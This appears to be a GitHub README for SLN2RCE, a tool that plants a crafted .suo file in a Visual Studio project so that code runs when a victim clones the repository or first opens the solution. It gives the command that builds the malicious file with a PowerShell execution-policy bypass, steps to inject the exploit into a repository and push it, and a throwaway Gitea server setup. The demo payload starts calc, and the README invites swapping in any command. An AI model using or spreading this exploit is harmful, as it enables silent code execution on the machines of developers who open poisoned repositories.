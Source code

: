 #########
SLN 2 RCE
#########

| Weaponize Visual Studio project to trigger RCE using SUO file (Solution User Options)
| All credit goes to:
|  https://github.com/cjm00n/EvilSln
|  https://github.com/moom825/visualstudio-suo-exploit

| The RCE happen when cloning project into VS or when opening the sln project file for the first time (VS overwrite the suo file)

|

| The suo file has been made using the following command to overwrite the initial suo file generated by VS

.. code-block:: powershell

    suo_exploit_test.exe .suo test.suo powershell -ep bypass -file action.ps1

|

| action.ps1 will start a calc but you can replace it

.. code-block:: bash

    # Move to a new temp dir
    cd $(mktemp -d)

    # Clone SLN2RCE and your payload project
    git clone https://github.com/charlesgargasson/SLN2RCE.git
    git clone http://localhost:3000/user2/repo.git

    # Copy SLN2RCE to your empty project
    cp -r SLN2RCE/* repo/

    # Set command
    echo 'calc' > repo/action.ps1

    # Push modifications 
    cd repo
    git add *
    git commit -m ok
    git push

|

| If you need a git instance

.. code-block:: bash

    cat <<'EOF'>/tmp/gitea.yml
    version: "3"

    networks:
    gitea:
        external: false

    services:
    server:
        image: gitea/gitea:1.22.3
        container_name: gitea
        environment:
        - USER_UID=1000
        - USER_GID=1000
        restart: always
        networks:
        - gitea
        volumes:
        - /tmp/gitea:/data
        - /etc/timezone:/etc/timezone:ro
        - /etc/localtime:/etc/localtime:ro
        ports:
        - "3000:3000"
        - "222:22"
    EOF

    docker-compose -f /tmp/gitea.yml up

|